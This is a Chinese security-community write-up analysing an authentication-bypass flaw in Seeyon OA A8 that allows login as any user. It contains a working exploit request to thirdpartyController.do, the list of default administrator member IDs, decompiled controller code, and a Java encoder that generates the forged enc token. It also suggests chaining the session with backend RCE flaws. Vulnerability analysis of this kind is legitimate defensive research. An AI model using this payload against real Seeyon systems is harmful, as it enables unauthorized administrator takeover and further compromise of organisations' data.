

# 致远 OA A8-V5 任意用户登录漏洞分析 - 先知社区

致远 OA A8-V5 任意用户登录漏洞分析

- - -

### 致远 OA A8-V5 任意用户登录漏洞分析

#### 漏洞环境

致远 A8 V7.0

#### 漏洞利用

接口 `/seeyon/thirdpartyController.do`

```plain
GET /seeyon/thirdpartyController.do?method=access&enc=TT5uZnR0YmhmL21qb2wvY2N0L3BxZm8nTj4uODM4NDE0MzEyNDM0NTg1OTI3OSdVPjo6Ojo6Ojo6Ojo6Ojo= HTTP/1.1
Host: 192.168.0.109
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

可以在响应包中得到一个`JSESSIONID`，在携带`JSESSIONID` 访问`/seeyon/online.do`接口进行验证。

```plain
GET /seeyon/online.do?method=showOnlineUser HTTP/1.1
Host: 192.168.0.103
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=8C078E76C97C408221F7CD808AF28932; loginPageURL=; avatarImageUrl=-7273032013234748168
Connection: close
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220180215-1fec3126-cfd7-1.png)

可用该`JSESSIONID`访问需要登录的接口，配合后台一些 RCE 漏洞进行利用。

#### 漏洞分析

在源码中全局搜索`thirdpartyController` 关键字

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220180222-23eb126a-cfd7-1.png)

可以根据路由接口找到对应配置文件中类文件的映射，跟入到`com.seeyon.ctp.portal.sso.thirdpartyintegration.controller.ThirdpartyController`中。

根据 exp 可以得知调用了该类的`access`方法。

在这个方法中代码还是比较多，我做了一些简化，保留了关键的几个代码片段。

```plain
public ModelAndView access(HttpServletRequest request, HttpServletResponse response) throws Exception {

        ModelAndView mv = new ModelAndView("thirdparty/thirdpartyAccess");
        String enc = null;
        if (request.getParameter("enc") != null) {
            enc = LightWeightEncoder.decodeString(request.getParameter("enc").replaceAll(" ", "+"));
        } else {
            String transcode = URLDecoder.decode(request.getQueryString().split("enc=")[1]);
            enc = request.getQueryString().indexOf("enc=") > 0 ? LightWeightEncoder.decodeString(transcode) : null;
        }

        if (enc == null) {
            mv.addObject("ExceptionKey", "mail.read.alert.wuxiao");
            return mv;
        } else {
            Map<String, String> encMap = new HashMap();
            String[] enc0 = enc.split("[&]");
            String[] link = enc0;
            int var14 = enc0.length;

            String path;
            String startTimeStr;
            for(int var15 = 0; var15 < var14; ++var15) {
                String enc1 = link[var15];
                String[] enc2 = enc1.split("[=]");
                if (enc2 != null) {
                    path = enc2[0];
                    startTimeStr = enc2.length == 2 ? enc2[1] : null;
                    if (null != startTimeStr) {
                        startTimeStr = URLEncoder.encode(startTimeStr);
                        startTimeStr = startTimeStr.replaceAll("%3F", "");
                        startTimeStr = URLDecoder.decode(startTimeStr);
                    }

                    encMap.put(path, startTimeStr);
                }
            }

            link = null;
            long memberId = -1L;
            Constants.login_useragent_from userAgentFrom = login_useragent_from.pc;
            String linkType = (String)encMap.get("L");
            path = (String)encMap.get("P");
            Long timeStamp;
            String link;
            if (Strings.isNotBlank(linkType)) {
                startTimeStr = "0";
                if (encMap.containsKey("T")) {
                    startTimeStr = (String)encMap.get("T");
                    startTimeStr = startTimeStr.trim();
                }

                timeStamp = 0L;
                if (NumberUtils.isNumber(startTimeStr)) {
                    timeStamp = Long.parseLong(startTimeStr);
                }

                if ((System.currentTimeMillis() - timeStamp) / 1000L > (long)(this.messageMailManager.getContentLinkValidity() * 60 * 60)) {
                    mv.addObject("ExceptionKey", "mail.read.alert.guoqi");
                    return mv;
                }

                String _memberId = (String)encMap.get("M");
                if (_memberId == null) {
                    mv.addObject("ExceptionKey", "mail.read.alert.wuxiao");
                    return mv;
                }

                memberId = Long.parseLong(_memberId);
                link = (String)UserMessageUtil.getMessageLinkType().get(linkType);
                if (link == null) {
                    mv.addObject("ExceptionKey", "mail.read.alert.wuxiao");
                    return mv;
                }


            } else {


            if (memberId == -1L) {
                mv.addObject("ExceptionKey", "mail.read.alert.noUser");
                return mv;
            } else {
                boolean isNeedLogout = false;
                long time2 = System.currentTimeMillis();
                log.info("Param耗时" + (time2 - time1) + "MS");
                User currentUser = (User)session.getAttribute("com.seeyon.current_user");
                if (currentUser != null && !currentUser.isDefaultGuest()) {
                    if (currentUser.getId() != memberId) {
                        mv.addObject("ExceptionKey", "mail.read.alert.exists");
                        return mv;
                    }
                } else {
                    V3xOrgMember member = this.orgManager.getMemberById(memberId);
                    if (member == null) {
                        mv.addObject("ExceptionKey", "mail.read.alert.noUser");
                        return mv;
                    }

                    LocaleContext.setLocale(session, this.orgManagerDirect.getMemberLocaleById(member.getId()));
                    currentUser = new User();
                    currentUser.setLoginTimestamp(loginTime);
                    session.setAttribute("com.seeyon.current_user", currentUser);
                    AppContext.putThreadContext("SESSION_CONTEXT_USERINFO_KEY", currentUser);
                    AppContext.initSystemEnvironmentContext(request, response, true);
                    currentUser.setSecurityKey(UUIDLong.longUUID());
                    currentUser.setId(memberId);
                    currentUser.setName(member.getName());
                    currentUser.setLoginName(member.getLoginName());
                    currentUser.setAccountId(member.getOrgAccountId());
                    currentUser.setLoginAccount(member.getOrgAccountId());
                    currentUser.setDepartmentId(member.getOrgDepartmentId());
                    currentUser.setLevelId(member.getOrgLevelId());
                    currentUser.setPostId(member.getOrgPostId());
                    currentUser.setInternal(member.getIsInternal());
                    currentUser.setUserAgentFrom(userAgentFrom.name());
                    currentUser.setSessionId(session.getId());
                    currentUser.setRemoteAddr(Strings.getRemoteAddr(request));
                    currentUser.setLocale(locale);
                    BrowserEnum browser = BrowserEnum.valueOf(request);
                .... 忽略了

                return mv;
            }
        }
    }
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220180232-2a30f0cc-cfd7-1.png)

首先，在代码的 276 行处，接收了 enc 参数并使用`LightWeightEncoder.decodeString`进行解码，跟入到该方法中。

```plain
public static String decodeString(String encodeString) {
        if (encodeString == null) {
            return null;
        } else {
            try {
                encodeString = new String((new Base64()).decode(encodeString.getBytes()));
            } catch (Exception var3) {
                log.warn(var3.getMessage());
            }

            char[] encodeStringCharArray = encodeString.toCharArray();

            for(int i = 0; i < encodeStringCharArray.length; ++i) {
                --encodeStringCharArray[i];
            }

            return new String(encodeStringCharArray);
        }
    }
```

这个方法功能是对传入的字符串进行 base64 解码，然后再将解码后的字符串每一个字符向后移动一位。

如传入`bcd`\->`base64编码`\->`调用decodeString`\->`abc`。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220180238-2da6d26c-cfd7-1.png)

很简单，接下来往下面看。

在 286-307 行处

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220180316-441eb7bc-cfd7-1.png)

这段代码是对经过经过`decodeString`解码后的值做一个分割操作，首先是将 enc 的值通过`&`分割成一个字符串列表，然后再进行遍历，再根据`=`再次分割字符串，将`=`前的值作为 key 放入 encMap 中，`=`后面的作为 key 的值。如`test=1&test2=2&test3=3`，就会被拆成`{"test": 1，"test2": 2, "test3": 3}`。

再往下边看。

```plain
Constants.login_useragent_from userAgentFrom = login_useragent_from.pc;
            String linkType = (String)encMap.get("L");
            path = (String)encMap.get("P");
            Long timeStamp;
            String link;
            if (Strings.isNotBlank(linkType)) {
                startTimeStr = "0";
                if (encMap.containsKey("T")) {
                    startTimeStr = (String)encMap.get("T");
                    startTimeStr = startTimeStr.trim();
                }

                timeStamp = 0L;
                if (NumberUtils.isNumber(startTimeStr)) {
                    timeStamp = Long.parseLong(startTimeStr);
                }

                if ((System.currentTimeMillis() - timeStamp) / 1000L > (long)(this.messageMailManager.getContentLinkValidity() * 60 * 60)) {
                    mv.addObject("ExceptionKey", "mail.read.alert.guoqi");
                    return mv;
                }

                String _memberId = (String)encMap.get("M");
                if (_memberId == null) {
                    mv.addObject("ExceptionKey", "mail.read.alert.wuxiao");
                    return mv;
                }

                memberId = Long.parseLong(_memberId);
                link = (String)UserMessageUtil.getMessageLinkType().get(linkType);
                if (link == null) {
                    mv.addObject("ExceptionKey", "mail.read.alert.wuxiao");
                    return mv;
                }
```

上面这段代码是从 encMap 中根据键`L`、`P`、`T`、`M`拿到对应的值分别赋值给`linkType`、`path`、`startTimeStr`、`_memberId`。

其中`linkType`、`startTimeStr`、`_memberId`所获取到的值很关键，也很重要。

在 316-344 行处

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220180323-48986ee6-cfd7-1.png)

这里之所以要进入这个 if 语句体中，是因为需要执行 333 这条语句，从`encMap`中获取到`_memberId`的值，后这个值将会有很大的作用。

在执行在拿到`_memberId`值之前，先是判断当前的时间是否大于了指定的时间，如果是直接返回了，很显然，我们肯定不想直接返回。

```plain
if ((System.currentTimeMillis() - timeStamp) / 1000L > (long)(this.messageMailManager.getContentLinkValidity() * 60 * 60)) {
    mv.addObject("ExceptionKey", "mail.read.alert.guoqi");
    return mv;
}
```

这里的 stimeStamp 直接可控，所以可以直接传入一个很大的值，可以传入一个跟`System.currentTimeMillis()`获取到的一样的值，这个条件不成立就不会进入。然后就会在 encMap 中拿到`_memberId`的值。

最后

```plain
link = (String)UserMessageUtil.getMessageLinkType().get(linkType);
    if (link == null) {
        mv.addObject("ExceptionKey", "mail.read.alert.wuxiao");
        return mv;
}
```

这里也是一个很关键的地方，如果 link 的值为空，那么会直接返回，所以这里必须通过`linkType`拿到点什么。

先跟入`getMessageLinkType`方法中。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220180331-4d727948-cfd7-1.png)

调用了`userMessageManager.getMessageLinkTypes()`获取值，继续跟入

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220180337-50804638-cfd7-1.png)

找到对应的实现类。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220180342-5393c214-cfd7-1.png)

继续跟入

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220180347-5684eeee-cfd7-1.png)

发现直接返回了`messageLinkTypes`，接下来在这个类中看看哪儿给`messageLinkTypes`传入了参数。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220180354-5b2aaf38-cfd7-1.png)

在`129-136`行处，加载了`/base/message-link.properties`配置文件，然后把值赋 put 进`messageLinkTypes`中。

在`message-link.properties`文件中

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220180402-5f67d68e-cfd7-1.png)

随便挑一个给`linkType`赋值就可以绕过最后一个条件。

接下来就来到最关键的一步

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220180406-6236f728-cfd7-1.png)

这段代码通过我们拿到的`memberId`作为参数调用了`this.orgManager.getMemberById`，这个方法大致就是通过`memberId`查找对应的用户，从别的师傅文章中得知，致远中存在几个默认的用户。

```plain
"5725175934914479521"   "集团管理员"
"-7273032013234748168"  "系统管理员"
"-7273032013234748798"  "系统监控"
"-4401606663639775639"  "审计管理员"
```

我们只需要通过以上`memberId`就能查询出管理员用户信息，在 422 行，用新创建的`User`对象重新设置了`session`，并且将查询出来的用户信息设置到了`currentUser`对象中，这才导致了任意用户登录漏洞。

**参数编码解码代码**

```plain
public class Test {
    public static void main(String[] args) {
            System.out.println(encodeString("L=message.link.bbs.open&M=-7273032013234748168&T=9999999999999"));
    }

    public static String decodeString(String encodeString) {
        if (encodeString == null) {
            return null;
        } else {
            try {
                encodeString = new String((new Base64()).decode(encodeString.getBytes()));
            } catch (Exception var3) {
                System.out.println(var3.getMessage());
            }

            char[] encodeStringCharArray = encodeString.toCharArray();

            for(int i = 0; i < encodeStringCharArray.length; ++i) {
                --encodeStringCharArray[i];
            }

            return new String(encodeStringCharArray);
        }
    }

    public static String encodeString(String encodeString) {
        if (encodeString == null) {
            return null;
        } else {
            char[] encodeStringCharArray = encodeString.toCharArray();

            for(int i = 0; i < encodeStringCharArray.length; ++i) {
                ++encodeStringCharArray[i];
            }

            try {
                encodeString = new String((new Base64()).encode((new String(encodeStringCharArray)).getBytes()));
            } catch (Exception var3) {
                System.out.println(var3.getMessage());
            }

            return encodeString;
        }
    }
}
```
